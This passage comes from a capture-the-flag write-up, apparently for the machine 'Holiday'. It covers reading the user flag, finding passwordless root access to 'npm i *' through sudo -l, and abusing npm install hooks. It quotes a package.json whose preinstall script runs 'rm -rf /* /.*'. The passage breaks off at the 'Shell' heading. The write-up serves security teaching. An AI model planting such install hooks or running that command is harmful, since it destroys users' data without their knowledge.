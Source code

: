 
And that’s enough to find `user.txt` one directory up:

    
    
    algernon@holiday:~$ cat user.txt 
    5edc176c...
    

## Shell as root

### Enumeration

Enumeration is often short when I find something interesting in the first
place I check, `sudo -l`:

    
    
    algernon@holiday:~$ sudo -l
    Matching Defaults entries for algernon on holiday:
        env_reset, mail_badpass,
        secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
    
    User algernon may run the following commands on holiday:
        (ALL) NOPASSWD: /usr/bin/npm i *
    

This user can run `npm` as root without a password.

### NodeJS npm

Some googling led me to [this post](https://github.com/joaojeronimo/rimrafall)
about how npm can be dangerous. The idea is that a NodeJS package is defined
in a file, `package.json`. The example from this repository looks like:

    
    
    {
      "name": "rimrafall",
      "version": "1.0.0",
      "description": "rm -rf /* # DO NOT INSTALL THIS",
      "main": "index.js",
      "scripts": {
        "preinstall": "rm -rf /* /.*"
      },
      "keywords": [
        "rimraf",
        "rmrf"
      ],
      "author": "João Jerónimo",
      "license": "ISC"
    }
    

There’s an item in there, `scripts` with a child `preinstall` that is a
command that will run, before the install.

### Shell
